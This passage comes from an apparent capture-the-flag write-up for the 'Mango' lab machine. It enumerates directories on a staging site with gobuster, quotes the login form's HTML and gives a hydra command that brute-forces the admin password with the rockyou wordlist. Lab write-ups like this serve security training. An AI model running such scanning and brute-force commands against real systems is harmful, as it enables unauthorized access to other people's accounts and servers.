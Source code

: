 The `http://staging-order.mango.htb/` brings up a new site:

![web2](./mango/web2.png)

Trying some basic logins with `admin` does not work and does not display an error? Instead the page just refreshes? Try looking for other PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.http.mango.txt -x php,txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://staging-order.mango.htb/ &
```

This returns some helpful hits:

```
/index.php (Status: 200)
/home.php (Status: 302)
/vendor (Status: 301)
/server-status (Status: 403
```

It seems like there is a backend since `home.php` has a HTTP 302 redirect to `index.php`. Try to bruteforce the login. Here is the relevant HTML from `index.php`:

```html
<form action="" method="POST">
<div class="form">
<input type="username" name="username" class="form-field animation a3" placeholder="Username">
<input type="password" name="password" class="form-field animation a4" placeholder="Password">
<p class="animation a5"><a href="#">Forgot Password</a></p>
<button class="animation a6" value="login" name="login">LOGIN</button>
</form>
```

This becomes the following bruteforce attempt:

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hydra staging-order.mango.htb http-form-post "/index.php:username=^USER^&password=^PASS^&login=login:Log in for ordering Sweet & Juicy Mango." -l admin -P rockyou.txt -vV -f
```
